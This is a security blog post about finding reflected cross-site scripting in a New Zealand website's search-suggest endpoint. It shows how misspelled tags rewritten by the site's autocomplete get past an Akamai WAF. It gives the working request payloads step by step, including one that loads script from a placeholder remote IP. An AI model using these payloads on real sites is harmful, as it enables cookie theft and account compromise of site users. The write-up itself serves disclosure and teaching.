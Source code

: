 +++
title = "Bypassing a WAF With Autocomplete"
date = 2024-07-15T10:33:59+12:00
draft = false
description = "Hacking a farming website!"
[_build]
  list = 'never'
+++

A few months ago, I was looking at a popular New Zealand website. I came across their search feature.
and found that when I interacted with the search box, it queried this endpoint to fetch the search results
<!--more-->

`<snip>/ViewSuggestSearch-Suggest&SearchTerm=tshirt`

```html
<div class="suggest-results-list search-spring">
<button type="button" class="close" title="Close"><span>×</span></button>
<div class="suggest-suggestion-list col-xs-6">
	<h3>Search Suggestion</h3>
	<ul>
		<li class="classic">
			<button type="button"
					data-search-result="tshirt"
					class="search-result">
				<span class="ish-searchTerm">tshirt</span>
			</button>
		</li>
	</ul>
</div>

(A bunch of products)...

```

The page would make these `HTTP GET` requests, and the endpoint would return a little HTML widget
that would then be embedded in the page. I tried injecting a HTML tag to test if this is vulnerable:

`/ViewSuggestSearch-Suggest&SearchTerm=<h1>HACKS?!</h1>`

```html
<div class="suggest-results-list search-spring">
<button type="button" class="close" title="Close"><span>×</span></button>
<div class="suggest-suggestion-list col-xs-6">
	<h3>Search Suggestion</h3>
	<ul>
		<li class="classic">
			<button type="button"
					data-search-result="<h1>hack?!</h1>"
					class="search-result">
			<h1>hack?!</h1>
			</button>
		</li>
	</ul>
</div>
```

Oops, that's not great—our input gets reflected without being sanitized! That means we can get
JavaScript execution, grab some cookies, and pwn people now… right? Let’s find out:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>alert(document.domain)</script>`

![Website WAF Block screen](images/waf-block-screen.png)

Wow, that's a crazy coincidence! Isn’t it? Let’s look a little closer…

![WAF image link hover](images/waf-image-link.png)

Huh, okay, unfortunately, we have to work a bit harder. This company has paid attention to the
security checklist and installed a Web Application Firewall (WAF), namely Akamai's 'Kona Site
Defender'. You can read more about WAFs
[here](https://owasp.org/www-community/Web_Application_Firewall), but the idea is that if we can’t
stop all the vulnerabilities, we can at least make exploitation harder by blocking suspicious
requests.

Clearly this is a problem, how do we bypass it?

Looking back at our first injection attempt, we can notice something interesting: the word "HACKS"
got changed to "hack". This is likely due to an autocomplete feature, by the nature of it being a
search engine. This may prove useful in bypassing the WAF. Can we somehow craft a payload that slips
past the WAF, is then transformed by this autocomplete feature into something malicious,
and then reflected to the victim's browser? Well, we’ve already seen that it seems to disregard the
non-alphanumeric characters from its autocompleting (i.e., `<>/`). That’s good; we only have to
worry about the words. Let's try:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>`

Blocked, ok thats expected,

What if we try “scripr”, a subtle misspelling of “script”? Will it autocomplete it?

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></span>
	</button>
</li>
...
```

Perfect! That looks good; the WAF doesn't block it. Let's build it up more. It turns out the
autocomplete doesn’t like the second word to be followed by a ">", so let's add a "/" which the
browser will ignore.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr></scripr/>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script></script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></script/></span>
	</button>
</li>
...
```

Sweet, it also seems that the WAF doesn’t like "alert(", so we'll use "alertt(" instead.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>alertt(document.domain)</scripr/>`

![Alert Box](images/alert-box.png)

Yay! we did it :3, In terms of further exploitation, a payload such as
`<scripr/src="//<remote-ip>/"></scripr/>` seems to work and Note: It's much easier here with an ip
address as domain names will get autocompleted.

Overall this was a fun little bug to discover, and demonstrates how to utilize these types of
transformations to bypass WAF's and filters.
